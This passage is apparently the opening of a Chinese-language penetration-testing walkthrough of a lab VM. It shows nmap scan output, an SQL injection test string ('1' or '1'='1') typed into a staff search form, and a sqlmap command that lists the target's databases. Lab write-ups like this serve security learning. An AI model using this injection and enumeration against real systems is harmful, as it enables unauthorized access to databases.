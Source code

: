 ```sehll
nmap -A 192.168.31.222
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 14:42 CST
Nmap scan report for 192.168.31.222
Host is up (0.00034s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
MAC Address: 00:0C:29:3D:D1:6F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

发现有个http服务

登陆是个管理界面可以查询

![image-20200115151231167](/assets/images/image-20200115151231167.png)

``1' or '1'='1``返回所有记录，存在注入点

用sqlmap跑一跑

```shell
sqlmap -r post.txt -p search --dbs
[15:01:46] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```
